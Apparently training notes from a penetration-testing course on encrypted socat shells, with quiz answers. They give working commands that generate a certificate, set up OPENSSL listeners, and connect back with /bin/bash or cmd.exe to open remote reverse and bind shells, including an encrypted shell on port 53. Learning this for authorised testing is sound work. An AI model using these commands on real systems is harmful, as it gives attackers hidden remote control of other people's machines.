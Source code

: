 Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells.
# Useful Commands:

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.  

We then need to merge the two created files into a single `.pem` file:

```bash
cat shell.key shell.crt > shell.pem
```
### Encrypted Reverse Shell

When we set up our reverse shell listener, we use:

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate _must_ be used on whichever device is listening.  

To connect back, we would use:

```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```
### Encrypted Bind Shell

Target:

```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
``` 

Attacker:

```bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.
### Critical Thinking: Stable Encrypted Shell

==We merged the encryption to stabilisation ==

What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

```bash
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

```bash
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

